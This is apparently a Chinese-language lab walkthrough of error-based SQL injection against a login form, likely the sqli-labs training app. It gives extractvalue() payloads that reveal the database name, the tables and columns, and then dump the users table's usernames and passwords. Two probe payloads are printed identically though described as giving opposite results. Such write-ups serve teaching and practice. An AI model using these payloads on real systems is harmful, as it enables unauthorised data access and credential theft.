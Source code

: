 其中：

第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc

第二个参数：XPath_string (Xpath格式的字符串)

如果我们对其中的参数输入错误的格式，那么它就会进行报错

## 步骤

1.在该页面提交表单发现会登陆失败，使用burpsuite进行拦截并且多次测试表单内容

2.首先测试注入点，是否存在注入漏洞

构造payload

`uname=admin' and 1=1 --+ &passwd=admin&submit=Submit`

页面显示能够登录

`uname=admin' and 1=1 --+ &passwd=admin&submit=Submit`

页面显示登陆失败

[![0j3ifH.jpg](https://s1.ax1x.com/2020/10/18/0j3ifH.jpg)](https://imgchr.com/i/0j3ifH)


说明and后的语句被执行了，也就是说存在注入漏洞

3.接下来可以使用报错对数据库的内容进行输出

构造payload:

`uname=admin' and extractvalue(1,concat('~',(select database()))) --+&passwd=admin&submit=Submit`

[![0j3pTO.jpg](https://s1.ax1x.com/2020/10/18/0j3pTO.jpg)](https://imgchr.com/i/0j3pTO)


如图所示，相应的数据库名被与错误信息连接在一起显示了出来

4.对数据表进行输出

`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security')))--+&passwd=admin&submit=Submit`


[![0j1zm6.jpg](https://s1.ax1x.com/2020/10/18/0j1zm6.jpg)](https://imgchr.com/i/0j1zm6)

但是发现能显示出来的只有两个表，需要对其余的几个表进行爆破,利用SQL语句的 NOT IN限制

`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security' and table_name not in('emails'))))--+&passwd=admin&submit=Submit`

连续排除几个表发现数据库中所有的表为emails,referers,uagents还有users，要对users表进行爆破

5.`uname=admin' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name in ('users')))) --+ &passwd=admin&submit=Submit`

只获取users表中的三个列名id,username,password

6.`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users ))) --+ &passwd=admin&submit=Submit`
